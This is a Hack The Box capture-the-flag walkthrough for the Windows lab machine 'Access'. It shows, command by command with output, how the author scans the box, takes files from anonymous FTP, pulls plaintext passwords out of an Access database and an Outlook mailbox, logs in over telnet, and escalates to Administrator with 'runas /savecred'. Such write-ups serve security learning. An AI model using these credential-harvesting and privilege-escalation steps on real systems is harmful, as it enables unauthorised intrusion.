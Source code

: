 ```yaml
---
title:  "Access"
date: 2019-03-11
tags:	[machines, windows, easy]
excerpt:  "This was my first ever machine on HTB. Took me around 3 days to figure this out (I was just starting!). This box touches basic misconfiguration in Windows based servers and is a good starter to your adventure in penetration testing with hackthebox."
---
```

This was my first ever machine on HTB. Took me around 3 days to figure this out (I was just starting!). This box touches basic misconfiguration in Windows based servers and is a good starter to your adventure in penetration testing with hackthebox.

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/Access/banner.PNG)

## Unlock and Access!

Before following this walkthrough, I highly recommend trying to get the flag yourself! Just like you will hear from everyone else, try harder! (if you cannot find it)

First up, we'll scan the box using basic nmap scripts and then go from there (Enumerate!).

```console
htb@noone:~/Access$ nmap -v -sC -sV -oA nmap/access 10.10.10.98
Nmap scan report for 10.10.10.98
Host is up (0.12s latency).
Not shown: 997 filtered ports

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Well, so we have a few ports open, port 21, 23, 80.

I always like to check the low-hanging fruit first. So let's get into FTP since `anonymous` login is allowed. This is a common misconfiguration for FTP logins. You never know what you might find but always is useful.

```console
htb@noone:~/Access$ ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:htb): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.

ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  08:16PM       <DIR>          Backups
08-24-18  09:00PM       <DIR>          Engineer
226 Transfer complete.

ftp> cd Backups
250 CWD command successful.

ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
08-23-18  08:16PM              5652480 backup.mdb
226 Transfer complete.

ftp> cd ../Engineer
l250 CWD command successful.

ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.

ftp> get "Access Control.zip"

ftp> get ../Backups/backup.mdb
```

After exploring the FTP shell, I found two files `backup.mdb` and `Access Control.zip`

A little Google-Fu helped me to figure out what a `mdb` file was and how I could use command-line tools in kali to view the contents.

```console
htb@noone:~/Access$ mdb-tables backup.mdb
acc_antiback acc_door acc_firstopen acc_firstopen_emp acc_holidays acc_interlock acc_levelset acc_levelset_door_group acc_linkageio acc_map acc_mapdoorpos acc_morecardempgroup acc_morecardgroup acc_timeseg acc_wiegandfmt ACGroup acholiday ACTimeZones action_log AlarmLog areaadmin att_attreport att_waitforprocessdata attcalclog attexception AuditedExc
auth_group_permissions auth_message auth_permission - auth_user auth_user_groups auth_user_user_permissions base_additiondata base_appoption base_basecode base_datatranslation base_operatortemplate base_personaloption base_strresource base_strtranslation base_systemoption CHECKEXACT CHECKINOUT dbbackuplog DEPARTMENTS
deptadmin DeptUsedSchs devcmds devcmds_bak django_content_type django_session EmOpLog empitemdefine EXCNOTES FaceTemp iclock_dstime iclock_oplog iclock_testdata iclock_testdata_admin_area iclock_testdata_admin_dept LeaveClass LeaveClass1 Machines NUM_RUN NUM_RUN_DEIL operatecmds personnel_area personnel_cardtype personnel_empchange personnel_leavelog
ReportItem SchClass SECURITYDETAILS ServerLog SHIFT TBKEY TBSMSALLOT TBSMSINFO TEMPLATE USER_OF_RUN USER_SPEDAY UserACMachines UserACPrivilege USERINFO userinfo_attarea UsersMachines UserUpdates worktable_groupmsg worktable_instantmsg worktable_msgtype worktable_usrmsg ZKAttendanceMonthStatistics acc_levelset_emp acc_morecardset ACUnlockComb AttParam
auth_group AUTHDEVICE base_option dbapp_viewmodel FingerVein devlog HOLIDAYS personnel_issuecard SystemLog USER_TEMP_SCH UserUsedSClasses acc_monitor_log OfflinePermitGroups OfflinePermitUsers OfflinePermitDoors LossCard TmpPermitGroups TmpPermitUsers TmpPermitDoors ParamSet acc_reader acc_auxiliary STD_WiegandFmt CustomReport ReportField BioTemplate
FaceTempEx FingerVeinEx TEMPLATEEx

htb@noone:~/Access$ mdb-export backup.mdb auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer" ,"access4u@security" ,1,"08/23/18 21:13:36",26,
28,"backup_admin" ,"admin" ,1,"08/23/18 21:14:02",26,
```

Credentials found for some users. Now let's try to access the zip archive.

I tried to extract te=he archive on Linux, doesn't work. So, I downloaded it on a Windows box and tried to unzip and apparently, it needs a password. Thankfully, we have a list that we just extracted.

After some trial and error, `access4u@security` was the password for the archive. Found a `.pst` file. Again some Google-Fu and I found a way to read the file on linux.

````console
htb@noone:~/Access$ readpst 'Access Control.pst'

htb@noone:~/Access$cat 'Access Control.mbox'

From "john@megacorp.com" Thu Aug 23 19:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
        boundary="--boundary-LibPST-iamunique-930452179_-_-"


----boundary-LibPST-iamunique-930452179_-_-
Content-Type: multipart/alternative;
        boundary="alt---boundary-LibPST-iamunique-930452179_-_-"

--alt---boundary-LibPST-iamunique-930452179_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,



The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.



Regards,

John
````

Great! So we have a set of credentials. That was it from FTP, onto the next service which is Telnet on port 23.

````console
htb@noone:~/Access$ telnet -l security 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

password:4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>dir
Volume in drive C has no label.
Volume Serial Number is 9C45-DBF0

Directory of C:\Users\security

```snip```
03/12/2019  12:33 PM    <DIR>          Desktop
08/21/2018  10:35 PM    <DIR>          Documents
08/21/2018  10:35 PM    <DIR>          Downloads
```snip```
2 File(s)          5,198 bytes
14 Dir(s)  16,667,664,384 bytes free
C:\Users\security>cd Desktop

C:\Users\security\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 9C45-DBF0

Directory of C:\Users\security\Desktop
```snip```
08/21/2018  10:37 PM                32 user.txt
```snip```

C:\Users\security\Desktop>more user.txt
f******************************8
````

Excellent! We have our user flag. Onto root.

In the same telnet session, I tried to check ways to privesc.

```console
C:\>cmdkey /list

Currently stored credentials:

Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator

C:\>C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Downloads\root.txt"

C:\>more C:\Users\security\Downloads\root.txt
6******************************f
```

Voila! We have the root flag as well and we can use this to gain out points on HackTheBox.

The privilege escalation on this box wasn't that complicated if you know what you are doing.

Happy Hacking! Cheers!
